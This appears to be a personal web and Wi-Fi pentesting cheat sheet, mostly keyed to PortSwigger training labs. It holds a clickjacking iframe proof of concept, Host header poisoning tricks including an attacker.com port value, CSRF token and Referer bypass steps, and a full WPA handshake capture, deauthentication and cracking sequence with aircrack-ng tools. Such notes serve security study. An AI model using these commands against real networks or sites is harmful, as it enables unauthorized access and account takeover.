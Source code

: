 # CIA
	Integrity : data only change by auth.
	Avalability : Avalable data when user need.
	Confidentility : Data access by auth.
  
# Containt Discover
	gobuster -u http://fakebank.com -w wordlist.txt dir 
	
# ClickJacking
https://numberless-holddown.000webhostapp.com/clickjacking.php?url={url}
or
		
		<!DOCTYPE html>
		<html lang="en">
		<head>
		  <meta charset="UTF-8">
		</head>
		<body>
		  <iframe src="{url}" frameborder="0"></iframe>
		</body>
		</html>

# Host Header Poisoning
## Basic
	Change "Host" header 

## via middleware
	Add X-Forwarded-Host: <domain.com>
	https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware
	
## via dangling markup
	Try "Host: domain.com" to "Host: domain.com:attacker.com"
	https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup
# CSRF
## CSRF parameter is not available
	---> generate CSRF POC and try

## CSRF parameter available 

	-> Change action METHOD (GET OR POST)

	-> Remove CSRF parameter
	eg. email and CSRF
	remove CSRF
	now> email

	-> enter own CSRF taken and send to victim (CSRF token one time use so, create fresh token everytime after use. For testing use inco mode. for more read paragraph.)



	1)  Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
	    Make a note of the value of the CSRF token, then drop the request.
	2) Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.
	3) Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
	4) Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
	    Store the exploit, then click "Deliver to victim" to solve the lab.


	->if CSRF key cookies and CSRF token are available

	https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie 

	->if header error occure
	1) so try remove header
	https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

	2) if header remove not work try changing domain like
	refrer: http://google.com
	to
	http://burpsuit/?google.com
	https://portswigger.net/web-security/csrf/lab-referer-validation-broken



# Wifi Password Hacking
	

	Step 1:

	Put your wireles lan card on monitor mode

	 airmon-ng start "wireless lan card name"
	=> airmon-ng start wlan0

	Step 2:

	Capture Traffic with Airodump-ng

	airodump-ng "wireless lan card monitor mode"

	=> airodump-ng wlan0mon


	Step 3:

	Focus airodump-ng on one AP on One Channel

	 airodump-ng --bssid dummy -c dummy --write WPAcrack wlan0mon

	=> airodump-ng --bssid 8C:FD:18:88:79:68 -c 9 --write WPAcrack wlan0mon


	Step 4:

	in order to capture the encrypted password we need to have the client authenticate against AP.
	we do deauth signal to client

	 aireplay-ng --deauth 1000 -a bssid wlan0mon

	=> aireplay-ng --deauth 1000 -a 8C:FD:18:88:79:68 wlan0mon


	Step 5:

	Now we have to crack the dump file with aircrack-ng

	 aircrack-ng WPAcrack-01.cap -w (localtion of wordlist)
